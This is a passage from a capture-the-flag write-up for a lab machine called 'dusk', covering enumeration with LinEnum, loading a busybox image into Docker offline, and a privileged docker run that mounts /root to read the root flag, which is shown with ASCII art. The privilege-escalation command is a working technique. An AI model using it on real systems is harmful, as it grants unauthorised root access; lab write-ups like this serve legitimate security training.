 dusk couldn't run sudo -l. There was also nothing in their user dir of use. I used a find command to find everything they owned and there was nothing useful. Their mail inbox contained only a test email I had sent the previous day.

Ultimately I ran [linenum.sh](https://github.com/rebootuser/LinEnum) (using nano to create it) and found that docker was running on the host, with dusk as a group member! Problem was, no containers were running and no images were available, and I had setup the vm so it couldn't access the net as a precaution.

I downloaded busybox on my macbook which runs docker, and saved it to a tar file (`docker pull busybox` and then `docker save busybox > busybox.tar`). Then I used a vbox shared folder to get it into kali, before finally scp'ing it to the dusk vm and loading it (`docker load --input busybox.tar`). Finally, I used the following command to get a shell in a container with access to the parent system: `docker run --privileged -v /root:/tmp -ti busybox`

This gave me access to the flag file:

```
/tmp # cat root.txt 
Congratulations on successfully completing the challenge! I hope you enjoyed as much as i did while creating such device. 
Send me some feedback at @whitecr0wz! 


                         .'  .-.'__.-----.\
                        /    `-'(__--'
                      .'       `. _ `--._
                     /            .`--'''`
                    /           .'   
                 _.'-.         J    
                /    J         F    
              .'     F        J     
             /      /         /-.    
            /      /         /   \    
           /      /         J    |      
          /      /          /   /   
         /   /  /          J   /    
        /   /  /           /-'/
       /   / -'           /  /    
      J   / /            / .'      
      / -'-'   /        /-'        
     (/|      |        /           
      /.'   ) | _.--  /            
     //     < \/   (  |            
    //       `.\    `.`.           
   //     ___/ \ `-.  `.`. 
   - ----'      )|`.\)  `-))\-')  
                '   )     ')/

Until then!

8930fa079a510ee880fe047d40dc613e
```
